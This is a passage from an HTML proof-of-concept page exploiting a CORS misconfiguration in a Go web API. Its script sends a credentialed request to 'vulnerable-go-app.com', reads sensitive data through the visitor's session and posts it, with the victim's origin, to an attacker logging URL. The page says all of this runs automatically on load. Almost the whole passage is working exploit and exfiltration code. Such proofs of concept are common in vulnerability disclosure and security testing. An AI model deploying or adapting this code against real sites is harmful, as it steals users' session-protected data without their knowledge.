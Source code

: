 ```HTML
            xhr.withCredentials = true;

            xhr.onload = function() {
                if (xhr.status >= 200 && xhr.status < 300) {
                    const responseData = xhr.responseText;
                    document.getElementById('status').textContent = 'Data received successfully!';
                    document.getElementById('result').textContent = 'Leaked Data: ' + responseData;
                    console.log('Leaked Data:', responseData);

                    // Exfiltrate the data to the attacker's server
                    fetch(attackerLogUrl, {
                        method: 'POST',
                        headers: {
                            'Content-Type': 'application/json'
                        },
                        body: JSON.stringify({
                            leakedData: responseData,
                            victimOrigin: window.location.origin, // Could be useful for tracking
                            targetUrl: vulnerableUrl
                        })
                    }).then(response => console.log('Data exfiltration attempt completed.'))
                     .catch(error => console.error('Error exfiltrating data:', error));

                } else {
                    document.getElementById('status').textContent = 'Failed to fetch data.';
                    document.getElementById('result').textContent = 'Status: ' + xhr.status + ' - ' + xhr.statusText;
                    console.error('Request failed:', xhr.status, xhr.statusText);
                }
            };

            xhr.onerror = function() {
                document.getElementById('status').textContent = 'Request error.';
                document.getElementById('result').textContent = 'An error occurred while making the request.';
                console.error('Request error.');
            };

            xhr.send();
        }
    </script>
</head>
<body>
    <h1>CORS Vulnerability PoC (Golang HTTP RPC)</h1>
    <p>This page automatically attempts to fetch sensitive data from a vulnerable Golang API endpoint (<code>http://vulnerable-go-app.com/api/getsensitivedata</code>) using your current session with that site.</p>
    <p>If successful, the data will be displayed below and sent to the attacker's server.</p>
    <h2>Exploitation Status:</h2>
    <p id="status">Initializing...</p>
    <h2>Result:</h2>
    <pre id="result"></pre>
</body>
</html>
```
